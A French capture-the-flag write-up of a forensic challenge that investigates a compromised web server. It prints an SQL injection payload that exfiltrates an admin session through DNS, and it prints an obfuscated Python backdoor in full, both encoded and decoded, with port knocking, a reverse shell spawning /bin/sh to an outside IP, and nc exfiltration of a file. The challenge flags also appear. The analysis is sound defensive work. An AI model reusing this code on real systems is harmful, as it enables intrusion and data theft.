


# Shadow4DGA

On nous donne accès à un site web et à un serveur.

Pour se connecter, j'utilise un fichier de configuration SSH pour ne pas avoir à entrer les données à chaque fois :

```
Host shadow4dga
    Hostname ssh-shadow4dga-server-nx7raj.inst.malicecyber.com
    User shadow
    Port 4117
    ServerAliveInterval 30
    ServerAliveCountMax 2
```

Et je me connecte avec `ssh -F ssh-config shadow4dga`.

## Première partie

> Après une fuite d'information sur l'internet : https://pastebin.com/WfPgGMSn. Un service d'hébergement anonyme pour les militaires français s'est fait attaquer. Le système permet le téléchargement de fichiers top secret protégés par le système S.O.P.H.I.A. Le système a besoin d'un identifiant de fichier puis d'un mot de passe d'accès.
>
> Il semblerait que la sécurité sur la base de données n'était pas suffisamment élevée. Un premier administrateur est intervenu pour réparer la vulnérabilité et supprimer la backdoor PHP. Aidez-le en détectant l'intrusion sur le serveur et essayez de comprendre ce que le hacker a exfiltré.
>
> Le flag doit être renseigné au format ci-après : DGHACK{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx...}

Le code du site web se trouve sur le serveur.

On cherche à accéder à l'activité du site, je regarde donc comment les logs sont générés :

shadow4dga/includes/logger.php
```php
<?php
defined('INCLUDES_CMS') ? INCLUDES_CMS : exit;

function logger($hdl)
{
    $q = base64_encode(gzdeflate(pdo_debugStrParams($hdl), 9));
    return wh_log($q);
}

function pdo_debugStrParams($stmt)
{
    ob_start();
    $stmt->debugDumpParams();
    $r = ob_get_contents();
    ob_end_clean();
    return $r;
}

function wh_log($log_msg)
{
    $path = "/var/log/web/";
    $log_filename = $path."sqlshadow.log";
    if (!file_exists($log_filename)) {
        mkdir($path, 0775, true);
    }
    $log_msg = '[' . date('d-M-Y h:i:s') . '] - ' . $log_msg;
    return @file_put_contents($log_filename, $log_msg . "\n", FILE_APPEND);
}

?>
```

Les logs sont donc contenus dans `/var/log/web/sqlshadow.log` et sont d'abord `gzdeflate` puis encodés en base64.

Le script python suivant permet donc de récupérer les logs en clair :

```python
import zlib
from base64 import b64decode

def inflate(s):
    decompress = zlib.decompressobj(-zlib.MAX_WBITS)
    inflated = decompress.decompress(b64decode(s))
    inflated += decompress.flush()
    return inflated.decode()

with open("sqlshadow.log") as f:
    for l in f:
        decoded = inflate(l.split(" - ")[1])
        print(decoded)
```

J'obtiens un fichier avec des requêtes SQL, et on voit facilement les requêtes d'exfiltration :
```
SQL: [96] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf('beginexf.hacker.com'));select 0,NULL,NULL;--);
Params:  0

SQL: [162] (SELECT * FROM files LIMIT 10 OFFSET 0);CALL exf(CONCAT(SUBSTRING((select session from users where username='admin'),1,63),'.hacker.com'));select 0,NULL,NULL;--);
Params:  0
...
```

La donnée extraite est donc le cookie admin, qui est dans le code source :

shadow4dga/admin.php
```php
$is_admin = false;
if ($_COOKIE["session"] === "b86eb8dae7809614b94dda9116a68f4a71a25cfe9e9a0b4f53621d87110930848204f157efc3defd5afb5b8b2fb9f6f560d26dc425532f1a77bc8ae3e07fcfc6") {
    $is_admin = true; // IS ADMIN
...
```

Flag : `DGHACK{b86eb8dae7809614b94dda9116a68f4a71a25cfe9e9a0b4f53621d87110930848204f157efc3defd5afb5b8b2fb9f6f560d26dc425532f1a77bc8ae3e07fcfc6}`

## Seconde partie

> Après le piratage du service d'hébergement anonyme pour les militaires français. Il semblerait que le pirate a réussi à élever ses privilèges pour installer une porte dérobée persistante pour l'utilisateur root.
>
> Détectez l'intrusion avancée sur le serveur et essayez de comprendre ce que le pirate a exfiltré.

On nous donne cette fois-ci les accès root sur le serveur.

`/root` contient un fichier Python:

system.py
```python
import base64, codecs
magic = 'aW1wb3J0IG9zCmltcG9ydCBwdHkKaW1wb3J0IHNvY2tldAppbXBvcnQgc29ja2V0c2VydmVyCmltcG9ydCB0aHJlYWRpbmcKaW1wb3J0IHRpbWUKaW1wb3J0IHN1YnByb2Nlc3MKCmxpc3Rlbl9rbm9jayA9IGxpc3QoKQoKCmNsYXNzIEtub2NrVGhyZWFkZWRUQ1BSZXF1ZXN0SGFuZGxlcihzb2NrZXRzZXJ2ZXIuQmFzZVJlcXVlc3RIYW5kbGVyKToKICAgIGRlZiBoYW5kbGUoc2VsZik6CiAgICAgICAgXywgc2VydmVyX3BvcnQgPSBzZWxmLnJlcXVlc3QuZ2V0c29ja25hbWUoKQogICAgICAgICMgcHJpbnQoJ1Bpbmcgb24ge30nLmZvcm1hdChzZXJ2ZXJfcG9ydCkpCiAgICAgICAgZ2xvYmFsIGxpc3Rlbl9rbm9jawogICAgICAgIGxpc3Rlbl9rbm9jay5hcHBlbmQoeydkJzogdGltZS50aW1lKCksICdwJzogc2VydmVyX3BvcnR9KQoKCmNsYXNzIEtub2NrVGhyZWFkZWRUQ1BTZXJ2ZXIoc29ja2V0c2VydmVyLlRocmVhZGluZ01peEluLCBzb2NrZXRzZXJ2ZXIuVENQU2VydmVyKToKICAgIHBhc3MKCgpjbGFzcyBiYWNrZG9vcl9rbm9ja19zZXJ2ZXI6CiAgICBkZWYgX19pbml0X18oc2VsZiwgY3VycmVudF9pcDogc3RyLCBrbm9ja19zZXE6IGxpc3RbaW50XSwgcmV2ZXJzZXNoZWxsX2hvc3Q6IHN0ciwgcmV2ZXJzZXNoZWxsX3BvcnQ6IGludCk6CiAgICAgICAgIyBwb3J0IGtub2NraW5nIGJhY2tkb29yCiAgICAgICAgc2VsZi5jdXJyZW50X2lwID0gY3VycmVudF9pcAogICAgICAgIHNlbGYua25vY2tfc2VxID0ga25vY2tfc2VxCiAgICAgICAgc2VsZi5zZXJ2ZXJzID0gW10KICAgICAgICAjIHJldmVyc2VzaGVsbCBpbmZvcm1hdGlvbgogICAgICAgIHNlbGYucmV2c2hfaG9zdCA9IHJldmVyc2VzaGVsbF9ob3N0CiAgICAgICAgc2VsZi5yZXZzaF9wb3J0ID0gcmV2ZXJzZXNoZWxsX3BvcnQKICAgICAgICAjIHN0YXRlbWVudAogICAgICAgIHNlbGYuc3RhdHVzID0gJ2Rvd24nCgogICAgZGVmIHN0YXJ0KHNlbGYpOgogICAgICAgIHRyeToKICAgICAgICAgICAgaWYgc2VsZi5zdGF0dXMgPT0gJ2Rvd24nOgogICAgICAgICAgICAgICAgc2VsZi5zZXJ2ZXJzID0gW10KICAgICAgICAgICAgICAgIGZvciBpIGluIHJhbmdlKDMpOgogICAg'
love = 'VPNtVPNtVPNtVPNtVPNtVUAypaMypvN9VRgho2AeITulMJSxMJEHD1OGMKW2MKVbXUAyoTLhL3IlpzIhqS9cpPjtp2IfMv5eoz9wn19mMKSonI0cYNbtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtVPNtF25iL2gHnUWyLJEyMSEQHSWypKIyp3EVLJ5xoTIlXDbtVPNtVPNtVPNtVPNtVPNtVPNtVUAypaMypy90nUWyLJDtCFO0nUWyLJEcozphITulMJSxXUEupzqyqQ1mMKW2MKVhp2IlqzIsMz9lMKMypvxXVPNtVPNtVPNtVPNtVPNtVPNtVPOmMKW2MKWsqTulMJSxYzEuMJ1iovN9VSElqJHXVPNtVPNtVPNtVPNtVPNtVPNtVPOmMKW2MKWsqTulMJSxYaA0LKW0XPxXVPNtVPNtVPNtVPNtVPNtVPNtVPOmMJkzYaAypaMypaZhLKOjMJ5xXUAypaMypvxXVPNtVPNtVPNtVPNtVPNtVUAyoTLhp3EuqUImVQ0tW3IjWjbtVPNtVPNtVPNtVPNtVPNtpzI0qKWhVSElqJHXVPNtVPNtVPNtVPNtMJkmMGbXVPNtVPNtVPNtVPNtVPNtVUWyqUIlovOTLJkmMDbtVPNtVPNtVTI4L2IjqPOSrTAypUEco24tLKZtMGbXVPNtVPNtVPNtVPNtpUWcoaDbMFxXVPNtVPNtVPNtVPNtpzI0qKWhVRMuoUAyPtbtVPNtMTIzVTyhMz8bp2IfMvx6PvNtVPNtVPNtqUW5BtbtVPNtVPNtVPNtVPOjo3W0plN9VSgmMKW2MKVhp2IlqzIlK2SxMUWyp3AoZI0tMz9lVUAypaMypvOcovOmMJkzYaAypaMypaAqPvNtVPNtVPNtVPNtVUOlnJ50XPqPLJAeMT9ipvOZnKA0MJ5cozptpT9lqUZ6VUg9VUg9VUg9Wl5zo3WgLKDbXaOipaEmXFxXVPNtVPNtVPNtVPNtpzI0qKWhVSElqJHXVPNtVPNtVPOyrTAypUDtEKuwMKO0nJ9hVTSmVTH6PvNtVPNtVPNtVPNtVUOlnJ50XTHcPvNtVPNtVPNtVPNtVUWyqUIlovOTLJkmMDbXVPNtVTEyMvO3LJy0FJ50MKWlqKO0XUAyoTLcBtbtVPNtVPNtVUElrGbXVPNtVPNtVPNtVPNtM2kiLzSfVTkcp3Eyoy9eoz9wnjbtVPNtVPNtVPNtVPO3nTyfMFNkBtbtVPNtVPNtVPNtVPNtVPNtqTygMF5moTIypPtkXDbtVPNtVPNtVPNtVPNtVPNtVlO3LJy0VUAypKIyozAyPvNtVPNtVPNtVPNtVPNtVPOcVQ0tZNbtVPNtVPNtVPNtVPNtVPNtovN9VUEcoJHhqTygMFtcPvNtVPNtVPNtVPNtVPNtVPOfVQ0toTIhXUAyoTLhn25i'
god = 'Y2tfc2VxKQogICAgICAgICAgICAgICAgZm9yIHBpbmcgaW4gbGlzdGVuX2tub2NrOgogICAgICAgICAgICAgICAgICAgIGlmIHBpbmdbJ2QnXSA8IChuIC0gNSk6ICAjIHdhaXQgNXMgZm9yIHJlY2VpdmUgc2VxdWVuY2UKICAgICAgICAgICAgICAgICAgICAgICAgbGlzdGVuX2tub2NrLnBvcChpKQogICAgICAgICAgICAgICAgICAgICMgZGV0ZWN0IHRoZSBmaXJzdCBzZXF1ZW5jZQogICAgICAgICAgICAgICAgICAgIGlmIHBpbmdbJ3AnXSA9PSBzZWxmLmtub2NrX3NlcVswXToKICAgICAgICAgICAgICAgICAgICAgICAgaWYgKGkgKyBsKSA8PSBsZW4obGlzdGVuX2tub2NrKToKICAgICAgICAgICAgICAgICAgICAgICAgICAgIHRsID0gW3BpbmdbJ3AnXV0KICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZvciBrIGluIHJhbmdlKDEsIGxlbihzZWxmLmtub2NrX3NlcSkpOgogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIHRsLmFwcGVuZChsaXN0ZW5fa25vY2tbaSArIGtdWydwJ10pCgogICAgICAgICAgICAgICAgICAgICAgICAgICAgaWYgc2V0KHNlbGYua25vY2tfc2VxKSA9PSBzZXQodGwpOgogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGxpc3Rlbl9rbm9jay5jbGVhcigpCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgc2VsZi5leGZpbHRyYXRpb24oKQogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIHNlbGYucGF5bG9hZCgpCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYnJlYWsKCiAgICAgICAgICAgICAgICAgICAgaSArPSAxCgogICAgICAgIGV4Y2VwdCBLZXlib2FyZEludGVycnVwdDoKICAgICAgICAgICAgcHJpbnQoKSAgIyBKdW1wcyBeQyBjaGFyCiAgICAgICAgICAgIHNlbGYuc3RvcCgpCgogICAgZGVmIHN0b3Aoc2VsZik6CiAgICAgICAgdHJ5OgogICAgICAgICAgICBpZiBzZWxmLnN0YXR1cyA9PSAndXAnOgogICAgICAgICAgICAgICAgZm9yIHNlcnZlciBpbiBzZWxmLnNlcnZlcnM6CiAgICAgICAgICAgICAgICAgICAgcHJpbnQoJ1NodXRkb3duIHt9Jy5mb3JtYXQoc2VydmVyLnNlcnZlcl9hZGRyZXNzWzFdKSkKICAgICAgICAgICAgICAgICAgICBzZXJ2'
destiny = 'MKVhp2u1qTEiq24bXDbtVPNtVPNtVPNtVPNtVPNtpzI0qKWhVSElqJHXVPNtVPNtVPNtVPNtMJkmMGbXVPNtVPNtVPNtVPNtVPNtVUWyqUIlovOTLJkmMDbtVPNtVPNtVTI4L2IjqPOSrTAypUEco24tLKZtMGbXVPNtVPNtVPNtVPNtpUWcoaDbMFxXVPNtVPNtVPNtVPNtpzI0qKWhVRMuoUAyPtbtVPNtMTIzVUOurJkiLJDbp2IfMvx6PvNtVPNtVPNtqUW5BtbtVPNtVPNtVPNtVPOjpzyhqPtaHxIJEIWGEIAVEHkZBvNaVPftp2IfMv5lMKMmnS9bo3A0VPftWmbaVPftp3ElXUAyoTLhpzI2p2uspT9lqPxcPvNtVPNtVPNtVPNtVUZtCFOmo2AeMKDhp29wn2I0XPxXVPNtVPNtVPNtVPNtpl5wo25hMJA0XPumMJkzYaWyqaAbK2uip3DfVUAyoTLhpzI2p2uspT9lqPxcPvNtVPNtVPNtVPNtVSgipl5xqKNlXUZhMzyfMJ5iXPxfVTMxXFOzo3VtMzDtnJ4tXQNfVQRfVQVcKDbtVPNtVPNtVPNtVPOjqUxhp3Ouq24bVv9vnJ4ip2tvXDbtVPNtVPNtVTI4L2IjqPOSrTAypUEco24tLKZtMGbXVPNtVPNtVPNtVPNtpzI0qKWhVRMuoUAyPtbtVPNtMTIzVTI4MzyfqUWuqTyiovumMJkzXGbXVPNtVPNtVPO0pax6PvNtVPNtVPNtVPNtVUqcqTtto3OyovtvY3Wio3DiYzSfnJSmMKZvYPNvqlfvXFOuplOzBtbtVPNtVPNtVPNtVPNtVPNtMv53pzy0MFtaLJkcLKZtMKuznJk0pzS0nJ9hCFWhLlNgqz4tWlNeVUAyoTLhpzI2p2usnT9mqPNeVPptAQD0APN8VP92p3ymqTIgVvpcPvNtVPNtVPNtVPNtVUAjVQ0tp3IvpUWiL2Impl5Do3OyovuoVv9vnJ4iLzSmnPVfVPVgLlVfVPWmo3IlL2HtY3Wio3DiYzSfnJSmMKZvKFxXVPNtVPNtVPNtVPNtp3NhL29goKIhnJAuqTHbXDbtVPNtVPNtVTI4L2IjqPOSrTAypUEco24tLKZtMGbXVPNtVPNtVPNtVPNtpUWcoaDbMFxXVPNtVPNtVPNtVPNtpzI0qKWhVRMuoUAyPtccMvOsK25uoJIsKlN9CFNaK19gLJyhK18aBtbtVPNtn3AlqvN9VTWuL2gxo29lK2gho2AeK3AypaMypvtaZGp0YwRjYwHjYwRaYPOoZGNjZQNfVQRjZQNkYPNkZQNjZy0fVPpkAmDhZGNhAGNhZmNaYPN4ZQtjXDbtVPNtn3Alqv5yrTMcoUElLKEco24bXDbtVPNtn3Alqv5mqTSlqPtcPvNtVPOep3W2YzyhMz8bXDbtVPNtn3Alqv53LJy0FJ50MKWlqKO0XPxX'
joy = '\x72\x6f\x74\x31\x33'
trust = eval('\x6d\x61\x67\x69\x63') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x6c\x6f\x76\x65\x2c\x20\x6a\x6f\x79\x29') + eval('\x67\x6f\x64') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x64\x65\x73\x74\x69\x6e\x79\x2c\x20\x6a\x6f\x79\x29')
eval(compile(base64.b64decode(eval('\x74\x72\x75\x73\x74')),'<string>','exec'))
```

On peut le déobfusquer en remplaçant la dernière ligne par `print(base64.b64decode(eval('\x74\x72\x75\x73\x74')).decode())`.

```python
import os
import pty
import socket
import socketserver
import threading
import time
import subprocess

listen_knock = list()


class KnockThreadedTCPRequestHandler(socketserver.BaseRequestHandler):
    def handle(self):
        _, server_port = self.request.getsockname()
        # print('Ping on {}'.format(server_port))
        global listen_knock
        listen_knock.append({'d': time.time(), 'p': server_port})


class KnockThreadedTCPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass


class backdoor_knock_server:
    def __init__(self, current_ip: str, knock_seq: list[int], reverseshell_host: str, reverseshell_port: int):
        # port knocking backdoor
        self.current_ip = current_ip
        self.knock_seq = knock_seq
        self.servers = []
        # reverseshell information
        self.revsh_host = reverseshell_host
        self.revsh_port = reverseshell_port
        # statement
        self.status = 'down'

    def start(self):
        try:
            if self.status == 'down':
                self.servers = []
                for i in range(3):
                    server = KnockThreadedTCPServer((self.current_ip, self.knock_seq[i]),
                                                    KnockThreadedTCPRequestHandler)
                    server_thread = threading.Thread(target=server.serve_forever)
                    server_thread.daemon = True
                    server_thread.start()
                    self.servers.append(server)
                self.status = 'up'
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False

    def info(self):
        try:
            ports = [server.server_address[1] for server in self.servers]
            print('Backdoor Listening ports: {} {} {}'.format(*ports))
            return True
        except Exception as e:
            print(e)
            return False

    def waitInterrupt(self):
        try:
            global listen_knock
            while 1:
                time.sleep(1)
                # wait sequence
                i = 0
                n = time.time()
                l = len(self.knock_seq)
                for ping in listen_knock:
                    if ping['d'] < (n - 5):  # wait 5s for receive sequence
                        listen_knock.pop(i)
                    # detect the first sequence
                    if ping['p'] == self.knock_seq[0]:
                        if (i + l) <= len(listen_knock):
                            tl = [ping['p']]
                            for k in range(1, len(self.knock_seq)):
                                tl.append(listen_knock[i + k]['p'])

                            if set(self.knock_seq) == set(tl):
                                listen_knock.clear()
                                self.exfiltration()
                                self.payload()
                                break

                    i += 1

        except KeyboardInterrupt:
            print()  # Jumps ^C char
            self.stop()

    def stop(self):
        try:
            if self.status == 'up':
                for server in self.servers:
                    print('Shutdown {}'.format(server.server_address[1]))
                    server.shutdown()
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False

    def payload(self):
        try:
            print('REVERSESHELL: ' + self.revsh_host + ':' + str(self.revsh_port))
            s = socket.socket()
            s.connect((self.revsh_host, self.revsh_port))
            [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
            pty.spawn("/bin/sh")
        except Exception as e:
            return False

    def exfiltration(self):
        try:
            with open("/root/.aliases", "w+") as f:
                f.write('alias exfiltration="nc -vn ' + self.revsh_host + ' 4444 < /vsystem"')
            sp = subprocess.Popen(["/bin/bash", "-c", "source /root/.aliases"])
            sp.communicate()
        except Exception as e:
            print(e)
            return False

if __name__ == '__main__':
    ksrv = backdoor_knock_server('174.10.50.1', [10000, 10001, 10002], '174.10.50.30', 8080)
    ksrv.exfiltration()
    ksrv.start()
    ksrv.info()
    ksrv.waitInterrupt()
```

On voit que ce qui est exfiltré est `/vsystem`, on peut donc le télécharger.

Je remarque que c'est un zip protégé par mot de passe.

Heureusement, mes explorations préalables m'ont fait trouver le mot de passe dans `.local/Trash/setup.php.swp`.

Je peux donc ouvrir le zip qui contient une image.



Je le donne à [StegOnline](https://stegonline.georgeom.net/upload) et on trouve le flag en regardant les LSB.



Flag : `DGHACK{L'empire_du_milieu_c@che_les_@liens}`